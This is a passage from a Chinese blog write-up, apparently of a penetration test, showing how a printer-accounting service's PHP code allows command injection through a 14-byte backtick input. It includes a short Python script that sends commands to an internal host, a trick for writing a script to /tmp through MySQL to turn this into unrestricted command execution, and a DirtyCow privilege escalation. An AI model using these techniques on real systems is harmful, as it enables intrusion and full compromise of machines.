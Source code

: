 往上追溯一下调用这个函数的地方，我发现了更绝望的事情：

```
if (trim($buffer) == '(') {
    $buffer .= fread(STDIN, 14);

    if (!strstr($print_previous, $buffer)) {
        generateAccount($buffer);
    }
```

我们只有 14 个字节的可控点，去掉首尾的反引号后还有 12 位。这太他妈 CTF 了吧。

另外还有一个限制：

```
while (true) {
    unset($printer_details);
    clearstatcache();

    if (!($res = $db->query('SELECT * FROM ant_services.Acc_Printer WHERE printer_ip='' . mysql_real_escape_string($ip) . '' AND status='enable''))) {
        logSyslog('failed to query database to get printer details');
        exit(1);
    }

    if ($res->rowCount() == '0') {
        logSyslog('is not found in registered printer list database ');
        exit(1);
    }
```

我想执行命令的话，需要是在 ant_services.Acc_Printer 能查到我的 IP 的，不过对于拥有数据库权限的我们来说，不是什么大问题。

写了个脚本方便执行：

```
import zio, sys

io = zio.zio(('192.168.10.2', 1001))
io.write('(`%s`)' % sys.argv[1])
```

不知道大家还记得之前提过有一个 FTP 的事情吗？我发现执行命令的结果会写在 FTP 下面的 log/acc/acc.log，这也算是意外之喜了。

![img](https://cdn.kelu.org/blog/2018/09/11.jpg)

## 5. Unlimited RCE

12 个字节怎么想怎么难受，但是想了想，我们有 MySQL，能写文件。如果把要执行的命令写到 /tmp 目录下，接着利用 bash /tmp/a 执行，只需要 11 个字节，那么就非常顺利的将受限的命令执行转化为任意命令执行了。

![img](https://cdn.kelu.org/blog/2018/09/12.jpg)

## 6. DirtyCows

没啥好说的了，这个 CentOS 4 的版本，随便提权啦。

![img](https://cdn.kelu.org/blog/2018/09/13.jpg)